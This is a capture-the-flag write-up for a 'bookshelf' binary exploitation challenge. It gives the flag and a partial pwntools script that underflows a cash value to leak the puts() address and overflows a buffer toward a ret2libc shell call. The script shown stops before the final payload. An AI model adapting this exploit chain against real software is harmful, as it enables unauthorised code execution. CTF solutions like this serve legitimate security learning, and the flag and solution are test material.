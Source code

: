 Flag: `PCTF{r3t_2_libc_pl0x_52706196}`

Final script:

```py
# Step 1: Write 40 characters to the write book func so that we gain admin
# Step 2: Underflow your cash to get address of puts()
# Step 3: Use leaked puts() to call system("/bin/sh")

# Notes
# Offset 56 from admin input to. RSP

from pwn import *

HOST = "chal.pctf.competitivecyber.club"
PORT = 4444

elf = context.binary = ELF("bookshelf")
libc = ELF("libc.so.6")

DEBUG = len(sys.argv) == 1

if DEBUG:
    p = process()
else:
    p = remote(HOST, PORT)

offset = 56

# Underflow cash to get address of puts()
it = 0
while True:
    res = p.recvuntil(b"4) Check out")
    p.sendline(b"2")
    res = p.recvuntil(b">>")
    p.sendline(b"2")

    res = p.recvuntil(b">>")
    p.sendline(b"y")
    res = p.recvuntil(b">>")
    if b"You don't have enough cash!" not in res and it > 2:
        p.recvuntil(b"4) Check out")
        break

    it += 1

# Get the address of puts()
p.sendline(b"2")
res = p.recvuntil(b">>")
p.sendline(b"3")
res = p.recvuntil(b"glory")

puts_addr = p.recvn(15).strip()
p.sendline(b"n")
p.recvuntil(b"4) Check out")

# Write 40 characters to writebook function
p.sendline(b"1")
p.recvuntil(b"!")
p.sendline(b"y")
p.sendline(b"A" * 40)

p.recvuntil(b"out")
p.recvuntil(b"out")

```